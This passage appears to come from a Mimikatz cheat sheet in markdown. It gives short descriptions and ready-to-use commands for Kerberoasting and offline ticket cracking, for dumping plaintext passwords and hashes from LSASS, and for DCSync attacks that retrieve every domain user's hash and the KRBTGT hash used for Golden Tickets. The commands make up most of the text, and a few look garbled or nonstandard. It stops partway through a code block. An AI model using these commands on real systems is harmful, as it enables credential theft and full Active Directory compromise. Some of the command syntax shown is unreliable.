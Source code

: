 #### Kerberoasting

1. **Enumerate SPNs for Kerberoasting**: Enumerates Service Principal Names (SPNs) that can be targeted for Kerberoasting.
    ```bash
    ldap::query /domain:<domain> /user:<username> /password:<password> /query:"(servicePrincipalName=*)"
    ```
2. **Request a Service Ticket**: Requests a service ticket for an SPN, which can then be cracked offline.
    ```bash
    kerberos::ask /target:<service>/<server> /rc4:<service_hash>
    ```
3. **Extract and Crack the Ticket**: Exports the Kerberos ticket and cracks it offline using a tool like John the Ripper.
    ```bash
    sekurlsa::tickets /export
    john --wordlist=<wordlist> <ticket.kirbi>
    ```

## Credential Extracting from Memory

Mimikatz can extract credentials directly from memory, bypassing the need to interact with disk-based storage.

#### From LSASS Process

1. **Dump Credentials from a Running LSASS Process**: Extracts all available credentials (plaintext passwords, hashes, tickets) from the LSASS process.
    ```bash
    sekurlsa::logonpasswords
    ```
2. **Dump Credentials from a Memory Dump**: Loads an LSASS memory dump and extracts credentials from it.
    ```bash
    sekurlsa::minidump <lsass.dmp>
    sekurlsa::logonpasswords
    ```
3. **Target Specific Credentials**: Extracts credentials for a specific session or service.
    ```bash
    sekurlsa::logonpasswords /name:<name>
    ```

## Domain Controller Attacks

Mimikatz provides tools for emulating domain controllers and extracting credentials directly from Active Directory.

#### DC Sync Attack

1. **Perform a DC Sync Attack on a User**: Emulates a Domain Controller to retrieve password hashes for a specific domain user.
    ```bash
    lsadump::dcsync /user:<username>
    ```
2. **Perform a DC Sync Attack on All Users**: Retrieves password hashes for all users in the domain.
    ```bash
    lsadump::dcsync /all
    ```
3. **Extract the KRBTGT Hash**: Retrieves the hash of the KRBTGT account, which is used to create Golden Tickets.
    ```bash
    lsadump::dcsync /user:krbtgt
